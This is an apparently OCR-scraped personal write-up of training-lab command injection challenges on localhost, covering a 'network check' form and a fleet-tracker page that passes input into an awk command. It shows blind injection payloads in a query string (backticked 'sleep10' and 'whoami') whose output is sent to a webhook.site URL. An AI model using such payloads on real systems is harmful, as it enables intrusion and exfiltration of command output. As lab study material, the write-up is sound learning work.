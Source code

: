 ## Network check

Check target

Target: http://localhost?q=`sleep10`

---

## Website OK
Our command is executed and and we could try blind command injection```

```
we could try different thing here instead of doing http://localhost we could add a listener we can do locally or we can use webhook.site

```

Go to the site and copy the unique url
and add a query at last by adding `?q=``whoami``
 https://webhook.site/1126163a-5d02-4709-af77-96f58f80f0d0?q=`whoami`
and we could check here www-data 
https://webhook.site/1126163a-5d02-4709-af77-96f58f80f0d0?q=www-data
```
This is in third party web app
```

=================================================================


# [Labs](http://localhost/index.php) / ==Command injection 0x03== [Challenge]

![](http://localhost/assets/fleettracker.png)

## Redirect vehicle

To redirect a vehicle, enter it's registration plate and new coordinates (0 to 10000).

Submit

## Current fleet

|Registration|Position|Destination|Status|
|---|---|---|---|
|ASH|100, 200|100, 200|parked|
|LJG|105, 55|200, 200|moving|
|UYG|145, 230|200, 200|moving|
|ALG|400, 105|400, 105|parked|

THIS Is a webpage 
and having an input field if i enter ASH and 50 , 50 and submit it would return something this 
```
Executed: awk 'BEGIN {print sqrt(((100-50)^2) + ((200-50)^2))}'  
Result: 158.114
```
Its look like its calc the distance between two points

